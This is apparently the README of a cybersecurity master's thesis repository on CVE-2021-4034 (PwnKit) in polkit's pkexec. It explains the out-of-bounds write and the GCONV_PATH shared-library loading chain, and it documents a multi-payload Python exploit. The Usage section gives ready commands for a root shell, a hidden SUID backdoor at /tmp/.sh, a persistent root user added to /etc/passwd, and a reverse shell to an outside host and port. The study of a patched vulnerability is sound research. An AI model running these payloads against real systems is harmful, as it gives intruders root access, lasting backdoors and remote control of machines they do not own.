







# CVE-2021-4034 — PwnKit Local Privilege Escalation · Master's Thesis Research

[](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)
[](https://github.com/devianntsec)
[](LICENSE)
[](https://github.com/devianntsec)
[-orange)](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)

> **Memory corruption vulnerability in polkit's pkexec utility**  
> Local Privilege Escalation → root via out-of-bounds write  
> Affected: polkit 0.105-31 and earlier · Patch: polkit 0.105-33 (January 2022)

---

<div align="center">
   
  
  <p><em>Interactive root shell obtained via CVE-2021-4034 - PwnKit</em></p>
</div>

## Description

This repository contains my **Master's Thesis research** on **CVE-2021-4034**, a High-severity (CVSS 7.8) **Local Privilege Escalation** vulnerability in polkit's `pkexec` utility, commonly known as **PwnKit**.

The vulnerability originates from an **out-of-bounds write** in `pkexec`'s argument processing logic. When `pkexec` is executed with an empty or crafted `argv`, it reads and writes beyond the bounds of the `argv` array into the `envp` array, allowing an unprivileged local user to inject malicious environment variables that are subsequently loaded as a shared library, executing arbitrary code with root privileges.

### My Contribution

| Aspect | Description |
|--------|-------------|
| **Multi-payload exploit** | Python wrapper with 6 payload modes including shell, id, backdoor, and reverse shell |
| **Automated environment setup** | Automatic GCONV_PATH construction and gconv-modules configuration |
| **Post-exploitation modules** | SUID backdoor, root user creation, and custom command execution |
| **Academic documentation** | Root cause analysis, exploitation chain, and vulnerability timeline |

---

## Repository Structure

```
CVE-2021-4034/
├── README.md                        # This file
├── LICENSE                          # MIT License
│
├── exploit/
│   └── pwnkit.py                    # Advanced exploit with multiple payloads
│
└── docs/
    ├── screenshots/                 # Exploitation demonstrations
    │   ├── 01-pwnkit-shell.png
    │   ├── 02-pwnkit-id.png
    │   ├── 03-pwnkit-whoami.png
    │   ├── 04-pwnkit-backdoor.png
    │   ├── 05-pwnkit-add-user.png
    │   ├── 06-pwnkit-reverse.png
    │   └── 07-pwnkit-custom.png
    │
    └── analysis/
        ├── 01-root-cause.md         # Vulnerability root cause analysis
        ├── 02-exploitation-chain.md # Exploitation chain breakdown
        └── 03-timeline.md           # CVE timeline
```

---

## Quick Start

### Prerequisites

- Linux system with vulnerable polkit (`pkexec --version` shows 0.105 or earlier)
- GCC compiler (`apt install gcc`)
- Python 3.6+
- Standard user account (no root required)
- Isolated VM recommended for testing

### Usage

```bash
# Interactive root shell (default)
python3 exploit/pwnkit.py -p shell

# Verify execution context
python3 exploit/pwnkit.py -p whoami

# Execute custom command as root
python3 exploit/pwnkit.py -p custom -c "id"

# Create SUID backdoor at /tmp/.sh
python3 exploit/pwnkit.py -p backdoor_suid

# Add persistent root user
python3 exploit/pwnkit.py -p add_root_user --username backdoor --password mypassword

# Reverse shell
python3 exploit/pwnkit.py -p reverse_shell --lhost 192.168.1.10 --lport 4444
```

### Payload Reference

| Payload | Description | Output |
|---------|-------------|--------|
| `shell` | Spawns interactive `/bin/sh` as root | Interactive shell |
| `id` | Writes `id` and `whoami` output to `/tmp/pwnkit_id.txt` | File |
| `whoami` | Writes UID/eUID verification to `/tmp/pwnkit_root_test` | File |
| `backdoor_suid` | Creates SUID root bash copy at `/tmp/.sh` | Persistent backdoor |
| `add_root_user` | Appends custom user to `/etc/passwd` | Persistent access |
| `reverse_shell` | Connects back to attacker via Python | Remote shell |
| `custom` | Executes any command as root | Stdout / file |

---

## Technical Overview

### Vulnerability Root Cause

`pkexec` processes its own `argv` to locate the program being run. When invoked with `argc == 0` (empty argument vector), the bounds check on `argv` fails silently. The subsequent out-of-bounds read treats `envp[0]` as `argv[1]`, and the out-of-bounds write back into `envp` allows an attacker to replace an environment variable with a crafted path. When `pkexec` later calls `g_printerr()`, it loads `GCONV_PATH` from the now-attacker-controlled environment, loading an attacker-supplied shared library with root privileges.

```
argc == 0  →  argv[1] reads envp[0]
             argv[1] = "GCONV_PATH=."  (writes back into envp)
             pkexec loads ./pwnkit.so  (attacker-controlled shared library)
             gconv_init() executes as root
```

### Exploitation Chain

```
1. Craft argv = { NULL }  →  argc = 0, triggers OOB access
2. Set envp[0] = "pwnkit.so:."
3. Set envp[1] = "PATH=GCONV_PATH=."
4. pkexec OOB-writes "pwnkit.so:." into envp[0] as if it were argv[1]
5. pkexec resolves GCONV_PATH=. and loads gconv-modules
6. gconv-modules maps "PWNKIT" charset to pwnkit.so
7. pwnkit.so:gconv_init() called with root privileges
8. Payload executes (shell / backdoor / reverse shell / etc.)
```

### Key Technical Details

| Component | Value | Notes |
|-----------|-------|-------|
| Vulnerable binary | `/usr/bin/pkexec` | SUID root |
| Trigger condition | `argc == 0` | Empty argv |
| Write primitive | OOB write into `envp` | Via `argv[argc-1]` |
| Load mechanism | `GCONV_PATH` + `gconv-modules` | Standard glibc iconv |
| Execution context | `gconv_init()` in shared library | Runs as EUID 0 |
| Affected versions | polkit ≤ 0.105-31 | All major Linux distros |

---

## Demonstrations

### Interactive Root Shell


### ID Verification


### Whoami Verification


### SUID Backdoor


### Add Root User


### Reverse Shell


### Custom Command


---

## Empirical Testing

All testing was conducted on an isolated VirtualBox VM running Ubuntu 20.04 LTS with polkit 0.105-26 (vulnerable), with no network exposure.

| Payload | Result | Notes |
|---------|--------|-------|
| `shell` | ✅ Root shell obtained | Immediate interactive access |
| `id` | ✅ `uid=0(root)` confirmed | Output in `/tmp/pwnkit_id.txt` |
| `whoami` | ✅ `root` confirmed | UID/eUID = 0 |
| `backdoor_suid` | ✅ SUID bit set on `/tmp/.sh` | Persistent after exploit |
| `add_root_user` | ✅ Custom user created | Survives reboot |
| `reverse_shell` | ✅ Connection established | Python reverse shell working |
| `custom` | ✅ Arbitrary command execution | Full root context |

---

## Technical Documentation

| Document | Description |
|----------|-------------|
| [Root Cause Analysis](docs/analysis/01-root-cause.md) | Out-of-bounds write in pkexec argument processing |
| [Exploitation Chain](docs/analysis/02-exploitation-chain.md) | Step-by-step breakdown of the GCONV_PATH injection |
| [CVE Timeline](docs/analysis/03-timeline.md) | Discovery, disclosure, and patch chronology |

---

## Academic Context

This research is part of my **Master's Thesis in Cybersecurity** (UCAM — Campus Internacional de Ciberseguridad), analyzing N-Day vulnerabilities across multiple environments.

This CVE represents the **Linux local privilege escalation** vector within the thesis, demonstrating:
- Memory safety vulnerabilities in SUID binaries
- Out-of-bounds write exploitation via environment variable manipulation
- Shared library injection via glibc's iconv infrastructure
- Multi-payload post-exploitation framework design

**Keywords:** `LPE` · `Polkit` · `pkexec` · `SUID` · `GCONV_PATH` · `CVE-2021-4034` · `PwnKit`

---

## Author

**Annais Molina (devianntsec)** — Master's Student in Cybersecurity

[](https://github.com/devianntsec)
[](https://linkedin.com/in/annais-molina-fuentes)
[](mailto:me@deviannt.com)

---

## Acknowledgments

- [**Qualys Research Team**](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) — Original discovery and responsible disclosure
- [**arthepsy**](https://github.com/arthepsy/CVE-2021-4034) — Early proof-of-concept reference
- [**berdav**](https://github.com/berdav/CVE-2021-4034) — Public PoC reference implementation

---

## License

MIT License — see [LICENSE](LICENSE)

---

## Legal Disclaimer

This repository is provided **for educational and security research purposes only**, as part of an academic Master's Thesis. All testing was performed on isolated virtual machines with no network exposure. Use only on systems you own or have explicit written authorization to test. Unauthorized use against systems is illegal and may result in criminal prosecution.

<div align="center">
  <sub>© 2026 Annais Molina · Master's Thesis in Cybersecurity</sub><br/>
  <sub>UCAM Universidad Católica San Antonio de Murcia · Campus Internacional de Ciberseguridad</sub>
</div>